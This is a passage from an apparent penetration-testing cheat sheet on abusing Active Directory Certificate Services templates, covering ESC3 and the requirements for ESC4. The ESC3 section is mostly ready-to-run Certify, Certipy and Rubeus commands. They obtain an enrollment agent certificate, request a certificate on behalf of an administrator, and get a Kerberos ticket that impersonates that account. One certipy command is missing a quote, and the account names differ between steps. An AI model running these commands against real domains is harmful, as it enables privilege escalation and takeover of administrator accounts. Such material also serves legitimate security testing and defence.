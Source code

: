|Attribute|Value|Description|
|---|---|---|
|Authorized Signature Required|1|It's required.|
|Schema Version|`1` or is greater than `2`||
|Application Policies|Certificate Request Agent EKU||
|pKIExtendedKeyUsage|Certificate Request Agent EKU|Client Authentication|
|Enrollment Permissions|Low-level domain users such as Authenticated Users|Low-priivileged users can request a certificate with the template.|
|Enrollment Agent Restrictions|Not implemented||
|Manager approval|Disabled||

### Exploit

We can request an enrollment agent certificate (Condition 1).

```sh
Certify.exe request /ca:dc.example.local\VULN-CA /template:VulnTemplate
certipy req 'example.local/username:password@ca.example.local -ca 'VULN-CA' -template VulnTemplate
```

Then issue a certificate request on behalf of another to a template that allows for domain authentication (Condition 2).

```sh
Certify.exe request /ca:dc.example.local\VULN-CA /template:User /onbehalfof:example\itadmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:asdf
certipy req 'example.local/username:password@ca.example.local' -ca 'VULN-CA' -template 'User' -on-behalf-of 'example\administrator' -pfx 'cert.pfx'
```

Ask TGT to authenticate as the "On Behalf Of" user.

```sh
Rubeus.exe asktgt /user:example\itadmin /certificate:itadminFromEnrollmentAgent.pfx /password:asdf
```

<br />

## ESC4

### Requirements to Attack

|Attribute|Value|Description|
|---|---|---|
|Access Control rights|Users have `Full Control` or `Write` permission.||
|Object Control Permissions|Users have `Owner`, `FullControl`, `WriteOwner`, `WriteDacl` or `WriteProperty` permission.||

## ESC6
